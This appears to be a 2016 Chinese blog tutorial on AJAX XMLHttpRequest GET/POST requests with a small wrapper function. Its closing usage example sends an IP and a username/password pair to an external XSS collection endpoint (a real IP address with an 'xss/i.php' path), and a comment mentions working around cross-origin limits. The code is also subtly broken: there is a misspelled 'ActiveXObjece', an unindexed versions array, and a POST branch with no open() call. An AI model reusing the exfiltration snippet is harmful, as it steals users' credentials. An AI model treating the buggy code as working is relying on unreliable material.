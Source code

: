 +++
date = "2016-10-25T11:16:52+08:00"
description = ""
draft = false
tags = ["ajax"]
title = "AJAX之XHR请求与响应"
topics = ["JavaScript"]

+++

### 0x00 GET请求
> ```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>test</title>
    <script type="text/javascript">
        function loadXMLDoc() {
            var xmlhttp;
            if (window.XMLHttpRequest) { //创建对象
                xmlhttp = new XMLHttpRequest();
            } else {
                xmlhttp = new ActiveXObjece("Microsoft.XMLHTTP");
            }
        
            // readyState改变时，就会触发onreadystatechange事件
            // readyState存有XMLHttpRequest的状态，为0-4，4表示请求已完成，且响应已就绪
            // status为200代表ok，为404代表未找到页面
            xmlhttp.onreadystatechange=function() {
                if (xmlhttp.readyState==4 && xmlhttp.status==200) {
                    // xmlhttp.responseText获取来自服务器的响应
                    document.getElementById("myDiv").innerHTML=xmlhttp.responseText;
                }
            }

            xmlhttp.open("GET","2.html?t="+Math.random(),true); //GET请求，改变readyState
            // xmlhttp.open("GET","2.html?name=test&age=23",true); //GET发送信息
            xmlhttp.send();
        }
    </script>
</head>
<body>
    <h2>AJAX</h2>
    <button type="button" onclick="loadXMLDoc()">Request data</button>
    <div id="myDiv"></div>
</body>
</html>
```
点击"Request data"时就会请求服务端的2.html

### 0x01 POST请求
> ```
// 简单的POST请求
xmlhttp.open("POST","demo_post.html",true);
xmlhttp.send();

// POST数据
xmlhttp.open("POST","ajax_test.html",true);
xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
xmlhttp.send("fname=Henry&lname=Ford");
```

### 0x02 简单封装
> ```
function createXHR () {
    var request = false;
    if (window.XMLHttpRequest) {
        request = new XMLHttpRequest();
        if (request.overrideMimeType) {
            request.overrideMimeType('text/xml');
        }
    } else if (window.ActiveXObject) {
        var versions = [
            'Microsoft.XMLHTTP', 'MSXML.XMLHTTP',
            'Microsoft.XMLHTTP', 'Msxml2.XMLHTTP.7.0',
            'Msxml2.XMLHTTP.6.0', 'Msxml2.XMLHTTP.5.0',
            'Msxml2.XMLHTTP.4.0', 'MSXML2.XMLHTTP.3.0', 'MSXML2.XMLHTTP'];
        for (var i = 0; i < versions.length; i++) {
            try {
                request = new ActiveXObject(versions);
            } catch (e) {}
        }
    }
    return request;
}

xhr=createXHR();//创建对象

function xhr_act(method,src,data){//封装POST和GET请求
    if(method=="GET"){
        xhr.open(method,src,false);           
        xhr.send();
        return xhr.responseText;
    } else if(method == "POST"){ 
        xhr.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
        xhr.setRequestHeader("Content-length", data.length);
        xhr.setRequestHeader("Connection", "close");
        xhr.send(data);
        return xhr.responseText;
    }
}
```
简单使用：
> ```
//GET的使用
var src="http://114.115.214.203/wyb/xss/i.php";
xhr_act("GET",src+"?ip="+ip,false);

//POST的使用
var user = "xiaoming";
var pass = "123456";
var src="http://114.115.214.203/wyb/xss/i.php";  //传送的地方 但是需要解决跨域问题
data="username="+user+"&password="+pass;
xhr_act("POST",src,data);
```